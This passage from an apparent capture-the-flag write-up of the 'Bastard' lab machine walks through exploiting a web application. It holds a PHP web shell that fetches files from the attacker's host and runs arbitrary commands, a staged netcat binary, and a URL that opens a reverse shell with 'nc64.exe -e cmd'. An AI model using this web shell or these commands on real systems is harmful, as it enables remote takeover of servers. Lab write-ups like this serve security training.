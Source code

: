 We place our nc64.exe in the folder where our HTTP server is running.  

```zsh
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Bastard/server]─[root@Arthorias]─[0]─[4201]
╰─[:)] # ls -la
total 624K
drwxr-xr-x 2 root root 4.0K Apr 16 04:55 .
drwxr-xr-x 3 root root 4.0K Apr 16 04:55 ..
-rw-rw-r-- 1 root root  43K Dec 26  2010 nc64.exe       <--> Our Executable of Netcat x64 
-rw-r--r-- 1 root root 550K Apr 16 03:58 PowerUp.ps1
-rw-r--r-- 1 root root  17K Apr 16 04:24https://hackingprofessional.github.io/Security/Hacking-Windows/ Sherlock.ps1
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Bastard/server]─[root@Arthorias]─[0]─[4202]
╰─[:)] # python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```  

Next, I'm going to alter the initial code of the exploit a bit.
In this way, the next steps will be easier:  

```php
$url = 'http://10.10.10.9/';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$phpCode = <<<'EOD'
<?php
    /* In the next conditional, by means of the parameter upload_file we can upload files. */
	if (isset($_REQUEST['upload_file'])) {
  		file_put_contents($_REQUEST['upload_file'], file_get_contents("http://10.10.14.17:8000/" . $_REQUEST['upload_file']));
    };
    
    /* In the next conditional, by means of the parameter execute_command we can execute commands. */ 
	if (isset($_REQUEST['execute_command'])) {
  		echo "<pre>" . shell_exec($_REQUEST['execute_command']) . "</pre>";
	};
?>
EOD;

/* We modify the data value, which must be equal to the newly created variable. */ 
$file = [
    'filename' => 'Gerh.php',
    'data' => $phpCode
];
```

We finally downloaded our executable by accessing the following URL: 

```
http://10.10.10.9/Gerh.php?upload_file=nc64.exe&execute_command=nc64.exe -e cmd 10.10.14.17 6969
```

Ok, we have already managed to have a reverse shell:  
